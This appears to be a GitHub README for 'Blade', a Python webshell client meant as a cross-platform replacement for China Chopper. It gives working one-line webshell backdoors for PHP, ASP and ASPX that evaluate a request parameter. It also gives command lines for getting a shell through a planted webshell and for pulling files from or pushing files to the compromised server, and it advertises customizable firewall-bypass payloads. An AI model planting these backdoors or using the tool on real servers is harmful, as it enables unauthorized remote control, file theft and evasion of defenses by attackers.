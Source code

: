 ##Blade
Blade is a webshell connection tool based on console, currently under development and aims to be a choice of replacement of Chooper (中国菜刀). Chooper is a very cool webshell client with widly typies of server side scripts supported, but Chooper can only work on Windows opreation system, so this is the motivation of create another "Chooper" supporting Windows, Linux & Mac OS X. Blade is based on Python, so it allows users to modify the webshell connection payloads so that Blade can bypass some specified WAF which Chooper can not.
##Major functions
Manage a web server with only one-line code on it, just like: <?php @eval($_REQUEST["cmd"]); ?>

PHP, ASP, ASPX & JSP supported.

Terminal Console provided.

File management & Dadabase management.
##Features
Cross-plaform supported (Python needed)

Customizable WAF bypass payloads

Compatible with Chooper's server side scripts
##Server side scripts examples
PHP:
<?php @eval($_REQUEST["cmd"]); ?>

ASP:
<%eval request("cmd")%>

ASPX:
<%@ Page Language="Jscript"%><%eval(Request.Item["cmd"],"unsafe");%>
##Usage
Get a shell:

 python blade.py -u http://localhost/shell.php -s php -p cmd --shell

Download a file:

python blade.py -u http://localhost/shell.php -s php -p cmd --pull remote_path local_path

Upload a file:

python blade.py -u http://localhost/shell.php -s php -p cmd --push local_path remote_path
##Current issues
Server side scripts supporting is not completed, currently only support PHP and ASP

Database management function is not completed, so can not connect databases
##Future developent
Beacuse I am busy sometimes, the progress of development may be a bit slow. If anyone intrest this project, welcome folk!
